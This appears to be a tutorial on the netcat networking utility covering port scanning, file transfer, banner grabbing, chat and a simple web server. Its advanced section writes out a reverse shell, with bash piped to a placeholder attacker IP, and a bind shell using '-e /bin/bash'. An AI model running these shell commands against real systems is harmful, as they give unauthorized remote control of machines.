 The `netcat` command, often abbreviated as `nc`, is a powerful networking utility for reading from and writing to network connections using TCP or UDP. Known as the "Swiss Army knife" of networking, `netcat` allows for port scanning, file transfers, service testing, and even as a rudimentary web server. Here’s a comprehensive breakdown of `netcat` and its functionalities:

### 1. **Basic Syntax**
   ```bash
   nc [options] {hostname} {port}
   ```
   - **Hostname**: Target IP address or hostname.
   - **Port**: Target port number to connect to or listen on.

### 2. **Core Use Cases**
   - **Port Scanning**: Quickly checking open ports on a host.
   - **File Transfer**: Sending and receiving files across networks.
   - **Chat System**: Creating simple, interactive chat sessions.
   - **Banner Grabbing**: Extracting information about services running on open ports.
   - **Reverse Shells**: Gaining command-line access to a remote machine (often used in penetration testing).

### 3. **Key Functionalities**

#### **Connecting to Ports**
   `netcat` can connect to open ports on a remote machine, much like `telnet`:
   ```bash
   nc {hostname} {port}
   ```
   Example: Connect to a web server on port 80:
   ```bash
   nc example.com 80
   ```
   Once connected, you can manually send HTTP requests or interact with the service.

#### **Listening Mode**
   This feature sets up `netcat` to wait for incoming connections, making it useful as a simple server.
   ```bash
   nc -l -p {port}
   ```
   Example: Start a listener on port 1234:
   ```bash
   nc -l -p 1234
   ```
   Anyone connecting to the host on this port can exchange messages, similar to a chat.

#### **Port Scanning**
   `netcat` can scan a range of ports to identify open services:
   ```bash
   nc -zv {hostname} {start_port}-{end_port}
   ```
   - `-z`: Zero-I/O mode; scans without sending data.
   - `-v`: Verbose output for status messages.
   Example: Scan ports 20 to 100 on `example.com`:
   ```bash
   nc -zv example.com 20-100
   ```

#### **File Transfer**

   **Sending a File**: Use `netcat` on one machine to send a file.
   ```bash
   nc {hostname} {port} < file.txt
   ```

   **Receiving a File**: Set `netcat` on another machine to listen and write to a file.
   ```bash
   nc -l -p {port} > file.txt
   ```
   Example: Transfer `file.txt` between two hosts (sending on port 1234):
   - **Sender**:
     ```bash
     nc {receiver_ip} 1234 < file.txt
     ```
   - **Receiver**:
     ```bash
     nc -l -p 1234 > file.txt
     ```

#### **Chat Mode**
   A simple two-way chat can be created using `netcat`. On one machine, listen on a port:
   ```bash
   nc -l -p 1234
   ```
   On another machine, connect to the listener:
   ```bash
   nc {listener_ip} 1234
   ```
   You can then type messages in each terminal to chat interactively.

#### **UDP Mode**
   By default, `netcat` uses TCP, but it can also work with UDP:
   ```bash
   nc -u {hostname} {port}
   ```
   Example: Connect to a service over UDP on port 12345:
   ```bash
   nc -u example.com 12345
   ```

#### **Banner Grabbing**
   Extract banner information from services, which can help in identifying software versions.
   ```bash
   nc -v {hostname} {port}
   ```
   Example: Check for an HTTP banner on port 80:
   ```bash
   nc -v example.com 80
   ```
   Type `HEAD / HTTP/1.0` and press `Enter` twice to get a server response.

#### **Creating a Simple HTTP Server**
   With `netcat`, you can simulate a basic web server. Serve an HTML file by listening on port 80:
   ```bash
   while true; do nc -l -p 80 < index.html; done
   ```

### 4. **Advanced Features**

#### **Reverse Shell**
   Commonly used in penetration testing, this sets up a reverse shell. Be cautious, as it can be a security risk.

   - **On the attacker’s machine** (listening mode):
     ```bash
     nc -l -p 4444
     ```

   - **On the target machine** (connects back to the listener):
     ```bash
     /bin/bash | nc {attacker_ip} 4444
     ```

#### **Persistent Listener**
   Use a loop to create a persistent listener:
   ```bash
   while true; do nc -l -p 1234; done
   ```

#### **Timeouts**
   Set a timeout for `netcat` connections using `-w`.
   ```bash
   nc -w 3 {hostname} {port}
   ```
   This specifies that `netcat` will wait for a maximum of 3 seconds.

#### **Execute Commands**
   `netcat` can be used to execute commands on remote hosts. For example:
   ```bash
   nc -l -p 1234 -e /bin/bash
   ```
   **Note**: The `-e` option may not be available on all `netcat` versions due to security concerns. Modern implementations of `netcat` might use `socat` or other tools to provide similar functionality.

### 5. **Security and Limitations**
   - **Permissions**: Running `netcat` as root or with elevated privileges may be necessary for certain ports.
   - **Firewall Rules**: Make sure firewalls allow connections to the specified ports.
   - **Legal Considerations**: Ensure you have permission for all network interactions to avoid unauthorized access violations.

### 6. **Installing Netcat**
   `netcat` comes pre-installed on many Linux systems. If not, install it with:
   ```bash
   sudo apt install netcat        # Debian/Ubuntu
   sudo yum install nc            # CentOS/RHEL
   sudo dnf install nc            # Fedora
   ```

### 7. **Alternative Implementations**
   - **OpenBSD netcat**: Enhanced version with support for Unix sockets and IPv6.
   - **GNU netcat**: GNU’s implementation with similar functionality.
   - **Ncat** (part of Nmap suite): Provides advanced features like SSL encryption.

With `netcat`, you have a versatile tool for debugging, testing, and basic data transfers across networks. Its simplicity and power make it essential for any network toolkit.
